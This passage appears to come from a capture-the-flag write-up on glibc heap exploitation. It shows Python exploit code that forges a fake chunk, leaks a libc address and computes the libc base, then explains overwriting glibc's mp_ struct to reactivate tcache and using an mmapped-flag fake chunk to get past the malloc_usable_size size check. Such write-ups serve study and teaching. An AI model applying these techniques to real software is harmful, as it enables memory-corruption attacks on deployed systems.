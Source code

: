 ```py
# This payload will be copied in the fake chunk when resize will be called
payload = b"B" * 0x10 + p64(0x0) + p64(0x91)
edit(1, payload)

# Exploit the resize malloc-copy-free to free a chunk with size > 0x80 so it will go in unsorted bins
resize(1, ATTACKER_CHUNK_SIZE)

# Get Libc leak
malloc(0x40)
leak = puts(5)
leak = int.from_bytes(leak, "little")
libc_base = leak - LIBC_ARENA_OFFSET
```

## Reactivating tcache
Now we want to reactivate tcache to gain arbitrary allocation. The goal is to overwrite the `mp_` struct.
```c
struct mp_{
  trim_threshold = 0x20000,
  top_pad = 0x20000,
  mmap_threshold = 0x20000,
  arena_test = 0x8,
  arena_max = 0x0,
  thp_pagesize = 0x0,
  hp_pagesize = 0x0,
  hp_flags = 0x0,
  n_mmaps = 0x0,
  n_mmaps_max = 0x0,
  max_n_mmaps = 0x0,
  no_dyn_threshold = 0x1,
  mmapped_mem = 0x0,
  max_mmapped_mem = 0x0,
  sbrk_base = 0x0,
  tcache_small_bins = 0x1,
  tcache_max_bytes = 0x20,
  tcache_count = 0x0,
  tcache_unsorted_limit = 0x0
};
```
First of all we want to find a 16 bytes alligned address in libc which contain a value that can be interpreted as a valid fast bin chunk size. If we can find this we will be able to allocate in this region. To look for theese values we can use `scan libc_base-libc_end 0x20-0x80` in gef. We find at offset 0x1e8008 the value 0x22, this is near enough to the mp_ struct and has the ismmapped flag set.

The ismmapped flag is usefull to bypass the `INVALID_SIZE` check. This check call [malloc_usable_size](https://elixir.bootlin.com/glibc/glibc-2.42/source/malloc/malloc-debug.c#L407). This function, if the chunk is not mmapped, will check if the next chunk has the prev inuse flag set, if not it will return 0 (to be precise this is the behavior of the `musable` function, which is called by malloc_usable_size). But if the chunk is mmapped the malloc_usable_size will return `chunk_size - 0x10` without doing other checks.
